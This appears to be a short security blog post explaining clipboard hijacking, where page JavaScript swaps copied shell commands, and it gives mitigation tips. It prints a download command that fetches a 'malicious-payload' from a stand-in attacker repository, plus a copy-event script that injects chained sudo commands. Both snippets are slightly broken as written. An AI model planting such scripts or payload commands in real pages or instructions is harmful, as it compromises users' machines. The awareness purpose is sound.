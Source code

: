 ```yaml
---
title: "Beware copy/pasting code or commands from the internet"
description: You never really know what is being added to your clipboard...
posted: 2020-10-19'
updated: "2021-03-19"
image: /assets/images/posts/arget-zvHhKiVuR9M-unsplash.jpg
credit:
  [
    Arget,
    https://unsplash.com/@arget?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


Credit to [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html) for bringing the topic/issue to my attention!

---

## The Problem

As an avid Linux user and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way&apos;s I haven&apos;t considered before.

An example of this from Brian Tracy is how the data you &ldquo;copy&rdquo; from a website isn&apos;t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don&apos;t worry if you don&apos;t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it&apos;s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain',
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line `\n` character, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

- While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
- Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
